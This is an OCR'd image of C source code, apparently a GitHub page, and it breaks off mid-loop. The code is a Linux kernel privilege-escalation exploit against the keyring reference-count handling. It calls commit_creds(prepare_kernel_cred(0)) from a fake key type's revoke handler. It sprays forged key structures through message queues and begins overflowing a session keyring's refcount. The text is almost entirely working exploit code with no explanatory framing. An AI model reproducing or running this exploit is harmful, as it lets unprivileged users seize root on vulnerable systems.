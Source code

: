 ``` c++
void userspace_revoke(void * key) {
    commit_creds(prepare_kernel_cred(0));
}

int main(int argc, const char *argv[]) {
	const char *keyring_name;
	size_t i = 0;
    unsigned long int l = 0x100000000/2;
	key_serial_t serial = -1;
	pid_t pid = -1;
    struct key_type * my_key_type = NULL;
    
struct { long mtype;
		char mtext[STRUCT_LEN];
	} msg = {0x4141414141414141, {0}};
	int msqid;

	if (argc != 2) {
		puts("usage: ./keys <key_name>");
		return 1;
	}

    printf("uid=%d, euid=%d\n", getuid(), geteuid()); 
    commit_creds = (_commit_creds) COMMIT_CREDS_ADDR;
    prepare_kernel_cred = (_prepare_kernel_cred) PREPARE_KERNEL_CREDS_ADDR;
    
    my_key_type = malloc(sizeof(*my_key_type));

    my_key_type->revoke = (void*)userspace_revoke;
    memset(msg.mtext, 'A', sizeof(msg.mtext));

    // key->uid
    *(int*)(&msg.mtext[56]) = 0x3e8; /* geteuid() */
    //key->perm
    *(int*)(&msg.mtext[64]) = 0x3f3f3f3f;

    //key->type
    *(unsigned long *)(&msg.mtext[80]) = (unsigned long)my_key_type;

    if ((msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1) {
        perror("msgget");
        exit(1);
    }

    keyring_name = argv[1];

	/* Set the new session keyring before we start */

	serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name);
	if (serial < 0) {
		perror("keyctl");
		return -1;
    }
	
	if (keyctl(KEYCTL_SETPERM, serial, KEY_POS_ALL | KEY_USR_ALL | KEY_GRP_ALL | KEY_OTH_ALL) < 0) {
		perror("keyctl");
		return -1;
	}


	puts("Increfing...");
    for (i = 1; i < 0xfffffffd; i++) {
```